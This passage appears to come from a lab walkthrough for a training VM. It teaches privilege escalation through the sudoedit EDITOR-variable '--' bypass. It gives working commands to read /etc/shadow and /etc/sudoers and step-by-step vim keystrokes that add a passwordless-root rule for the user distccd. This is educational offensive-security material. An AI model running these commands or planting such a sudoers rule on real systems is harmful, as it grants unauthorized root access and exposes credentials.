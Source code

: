 The vulnerability is triggered by setting the EDITOR environment variable to include another file to open (/etc/shadow), and a coding mistake means we can use '--' to trick sudoedit into opening the extra file.

==action: We can also view the file that configures what commands each user is allowed to run using sudo. Run:==

```bash
EDITOR='cat -- /etc/sudoers' sudoedit /etc/hosts
```

We will further escalate our privileges on the system by editing the sudoers configuration file!

> Warning: Be aware that our shell prompt doesn't support full interactivity. This means that when running full-screen terminal interaction programs (such as Vi), the output may appear somewhat distorted or irregular. For example, the arrow keys will not work to navigate within Vi, and will instead fill the screen with unexpected characters.

> Warning: However, to proceed with this next privilege escalation attack, we will need to use Vi. It's crucial to exercise caution and navigate the program carefully, even if the output appears to be distorted or irregular. If you make a mistake when editing the sudoers file, the VM will be bricked, and you will need to restore the VM from a snapshot.

> Warning: Run this and **don't press any extra keys** (read ahead for instructions on what to type next):

```bash
EDITOR='vim -- /etc/sudoers' sudoedit /etc/hosts
```

==action: Press the Enter key==

==action: Carefully type (exactly) this:==

```
Go
```

==action: Press the Enter key==

> Note: *That will move you to the bottom of the file and add a new line and enter "insert" mode, so you can start typing the line to add.*

==action: Carefully type or paste (exactly) this:==

```
distccd ALL=(ALL) NOPASSWD:ALL
```

> Note: *This will change the sudo rules, so that your user distccd can run any sudo command without providing any password.*

==action: Carefully press these keyboard keys (exactly):==

```
Esc
```

> Note: *^\[ will appear on the screen*

```
:x
```
